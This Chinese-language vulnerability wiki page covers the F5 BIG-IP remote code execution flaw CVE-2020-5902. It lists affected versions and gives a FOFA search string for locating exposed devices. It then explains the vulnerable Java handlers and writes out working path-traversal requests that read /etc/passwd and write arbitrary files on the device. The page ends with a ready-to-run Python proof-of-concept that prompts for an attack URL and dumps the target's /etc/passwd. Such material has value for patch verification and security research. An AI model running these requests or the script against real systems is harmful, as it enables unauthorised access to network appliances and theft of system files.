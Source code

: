 # F5 BIG-IP 远程代码执行漏洞 CVE-2020-5902

## 漏洞描述

2020年07月03日， 360CERT监测发现 `F5` 发布了 `F5 BIG-IP 远程代码执行` 的风险通告，该漏洞编号为 `CVE-2020-5902`，漏洞等级：`严重`。

未授权的远程攻击者通过向漏洞页面发送特制的请求包，可以造成任意 Java 代码执行。进而控制 `F5 BIG-IP` 的全部功能，包括但不限于: 执行任意系统命令、开启/禁用服务、创建/删除服务器端文件等。该漏洞影响控制面板受影响，不影响数据面板。

## 漏洞影响

> [!NOTE]
>
> F5 BIG-IP 15.x: 15.1.0.4
>
> F5 BIG-IP 14.x: 14.1.2.6
>
> F5 BIG-IP 13.x: 13.1.3.4
>
> F5 BIG-IP 12.x: 12.1.5.2
>
> F5 BIG-IP 11.x: 11.6.5.2

## FOFA

> [!NOTE]
>
> title="BIG-IP&reg ;- Redirect"

## 漏洞复现

在 `tmshCmd` 的 `service`方法处理请求的时候，未对`command` 参数进行处理，直接调用 `WorkspaceUtils.runTmshCommand(cmd, request);` 方法执行命令，限制了执行`delete,create,list,modify`。

```java
if ("POST".equalsIgnoreCase(request.getMethod())) {
            String[] cmdArray = command.split(" ");
            String operation = cmdArray[0];
            String module = cmdArray[2];
            if (!ShellCommandValidator.checkForBadShellCharacters(command) && (operation.equals("create") || operation.equals("delete") || operation.equals("list") || operation.equals("modify")) && WHITELISTED_TMSH_MODULES.contains(module)) {
               try {
                  String[] args = new String[]{command};
                  Result result = Syscall.callElevated(Syscall.TMSH, args);
                  output = result.getOutput();
                  error = result.getError();
               } catch (CallException var11) {
                  logger.error(NLSEngine.getString("ilx.workspace.error.TmshCommandFailed") + ": " + var11.getMessage());
                  error = var11.getMessage();
               }
            } else {
               error = NLSEngine.getString("ilx.workspace.error.RejectedTmshCommand");
}
```

在 `fileRead` 的 `service`方法处理请求的时候，未对 `fileName` 参数进行处理，直接调用 `WorkspaceUtils.readFile(fileName);` 方法，进行文件读取。

![](http://wikioss.peiqi.tech/vuln/F5-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

在 `fileSave` 的 `service`方法处理请求的时候，未对 `fileName`，`content` 参数进行处理，直接调用 `WorkspaceUtils.saveFile(request);` 方法，进行文件上传。

![](http://wikioss.peiqi.tech/vuln/F5-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

[详情利用方式 https://github.com/jas502n/CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)

[详情利用方式 https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md](https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md)

#### 读取文件

**http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd**

![](http://wikioss.peiqi.tech/vuln/F5-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

#### 写入文件

**http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp**

**POST: fileName=/tmp/test.txt&content=test**

读取文件 /tmp/test

![](http://wikioss.peiqi.tech/vuln/F5-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

成功写入文件

## 漏洞利用POC

```python
import requests
import sys
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: F5 BIG-IP                                                \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-5902.py                                  \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Language":"zh-CN,zh;q=0.9",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=version_url, timeout=10, verify=False, headers=headers)
        if "output" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞，响应为:\n{}\033[0m".format(target_url, json.loads(response.text)["output"]))
        else:
            print("\033[31m[x] 目标漏洞无法利用 \033[0m")

    except Exception as e:
        print("\033[31m[x] 目标漏洞无法利用 ,{}\033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/F5-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 参考文章

https://mochazz.github.io/2020/07/11/F5-BIG-IP%E6%9C%AA%E6%8E%88%E6%9D%83RCE(CVE-2020-5902)/#%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C
